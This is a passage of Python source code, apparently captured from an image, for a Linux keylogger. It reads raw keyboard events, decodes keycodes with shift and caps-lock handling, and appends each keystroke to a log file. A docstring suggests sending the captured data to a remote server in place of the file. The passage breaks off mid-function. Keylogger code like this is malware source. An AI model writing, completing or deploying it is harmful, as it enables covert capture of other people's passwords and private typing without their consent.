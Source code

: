 ```python

q = Queue()  # Producer sends event to Parser
q2 = Queue()  # Parser sends mapped character to Writer


def recorder():
    """Grabs items from the 2nd queue (parsed data), and writes it to the logfile.
    This could be replaced with a function to send the data to a remote server"""
    while True:
        writing = q2.get(block=True)  # Get the key 
        if writing == 'BACKSPACE':  # If key is 'BACKSPACE'
            with open(OUTFILE, 'r') as f:
                data = f.read()
                data = data[:-1]  # Slice off the last character
            with open(OUTFILE, 'w') as f:
                f.write(data)  # write it to the file
        elif len(writing) <= 4:  # Otherwise
            print(writing, end='')  # Print for debug
            with open(OUTFILE, 'a+') as f:
                f.write(writing)  # Write the keystroke to file


def consumer():
    """Parses the data from the keystrokes into a mapped character (or string) from the one of the two
    keycode lists."""
    shift = False  # Boolean for Shift
    caps_lock = False   # Boolean for Caps Lock

    while True:
        key = ''
        event = q.get(block=True)  # Get the event

        # Unpack the event:
        (seconds, microseconds, event_type, event_code, value) = struct.unpack(STRUCT_FORMAT, event)
        # for debugging codes: # print(f"shift={shift}, code={event_code}, value={value}, event_type={event_type}")

        # if leftshift or rightshift & value is 0 (unpressed)
        if event_code == 42 and value == 0 or event_code == 54 and value == 0:
            shift = False

        # otherwise if leftshift or rightshift set shift to True
        elif event_code == 42 or event_code == 54:
            shift = True

        # if capslock is pressed !capslock
        elif event_code == 58 and value == 1:
            if caps_lock:
                caps_lock = False
            else:
                caps_lock = True

        # otherwise if a key is pressed
        elif value == 1:

            # if neither capslock or shift
            if not shift and not caps_lock:
                key = KEYMAP[event_code]

            # if just shift special symbols & capital letters
            elif shift and not caps_lock:
```